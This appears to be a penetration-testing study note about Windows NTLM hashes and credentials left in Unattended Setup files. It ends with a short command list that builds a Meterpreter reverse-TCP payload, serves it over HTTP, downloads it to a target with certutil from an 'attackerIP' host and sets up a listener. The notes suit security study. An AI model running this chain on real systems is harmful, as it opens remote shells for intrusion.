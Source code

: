 ### NTLM (NTHash)

- NTLM is a collection of authentication protocols that are utilized in Windows to facilitate authentication between computers. The authentication process involves using a valid username and password to authenticate successfully.
- From Windows Vista onwards, Windows disables LM hashing and utilizes NTLM hashing.
- When a user account is created, it is encrypted using the MD4 hashing algorithm, while the original password is disposed of.
- NTLM improves upon LM in the following ways:
    - Does not split the hash in to two chunks.
    - Case sensitive.
    - Allows the use of symbols and unicode characters.

## Searching for passwords in Windows configuration files

- Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems.
- This is typically done through the use of the Unattended Windows Setup utility, which is used to automate the mass installation/deployment of Windows on systems.
- This tool utilizes configuration files that contain specific configurations and user account credentials, specifically the Administrator account’s password.
- If the Unattended Windows Setup configuration files are left on the target system after installation, they can reveal user account credentials that can be used by attackers to authenticate with Windows target legitimately.

### Unattended Windows Setup

- The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system configuration information:
    - C:\Windows\Panther\Unattend.xml
    - C:\Windows\Panther\Autounattend.xml
- As a security precaution, the passwords stored in the Unattended Windows Setup configuration file may be encoded in base64.

### Commands

**Payload:**

- msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=attackerIP LPORT=attackerPort -f exe > payload.exe

**Server to host the payload:**

- python -m SimpleHTTPServer 80

**certutil (Windows):**

- certutil -urlcache -f http://attackerIP:port/payload.exe payload.exe

**msfconsole:**

> use multi/handler

> set payload windows/x64/meterpreter/reverse_tcp
